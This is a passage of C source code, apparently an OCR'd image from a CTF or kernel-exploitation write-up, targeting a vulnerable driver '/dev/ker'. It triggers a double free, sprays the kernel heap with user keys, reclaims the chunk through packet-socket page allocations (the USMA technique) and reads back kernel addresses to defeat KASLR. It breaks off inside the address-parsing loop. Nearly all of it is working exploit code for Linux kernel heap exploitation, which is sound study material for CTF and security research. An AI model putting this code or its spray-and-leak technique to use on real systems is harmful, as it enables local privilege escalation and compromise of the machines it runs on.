```c
    int rv = bind(s, (struct sockaddr *)&sa, sizeof(sa));
    if (rv < 0) {
        die("bind(AF_PACKET): %m");
    }

    return s;
}

int pagealloc_pad(int count, int size) {
    return packet_socket_setup(size, 2048, count, 0, 100);
}
// ------------------- USMA 板子 end -------------------

int main(){
    bind_core(0);
    unshare_setup(); // need to call this or socket(AF_PACKET) will fail
    save_status();
    f1 = open("/dev/ker",2);
    *(long long*)c = c + 1;
    create(c);
    delete(c);
    int payload_size = 0x1f;
    char payload[0x1f] = {0};
    // spray: step 1
    int i = 0;
    int occupy_idx = 0;
    srand((unsigned)time(NULL));
    char * tmp_desc = (char*)malloc(20);
    memset(tmp_desc, 0, 20);
    for(i =0; i < HEAP_SPRAY_COUNT; i++){
        snprintf(tmp_desc, 20, "a%x", rand());
        test_id[i] = key_alloc(tmp_desc,payload,payload_size);
    }
   // free again 
    delete(c);
    // do usma, occupy the chunk again with kernel addresses
    int pfds[200];
    for(i = 0; i < 200; i++){
        pfds[i] = pagealloc_pad(8, 0x1000);
        if(pfds[i] < 0){
            perror("pfds");
            break;
        }
    }
    // address leak with key_read with user_key_payload
    // get the one who occupies the chunk
    for(i = 0; i < HEAP_SPRAY_COUNT; i++){
        if(key_read(test_id[i], tmp_buf1, 0xb000) > 0x28){
            occupy_idx = i;
            break;
        }
    }
    printf("occupy_idx: %d\n",occupy_idx);
    // **need to revoke all the other keys to spray kernel address on kernel heap first!**
    for(i = 0; i < HEAP_SPRAY_COUNT; i++){
        if(i == occupy_idx) continue;
        key_revoke(test_id[i]);
    }
    key_read(test_id[occupy_idx], tmp_buf1, 0xb000);
    // get the kernel address from tmp_buf1
    // get the first address starting at 0x850
    // 0xffffffffa4408850 0xffffffffa3e00000
    for(int i=0;i<0xb000/8;i++){
```
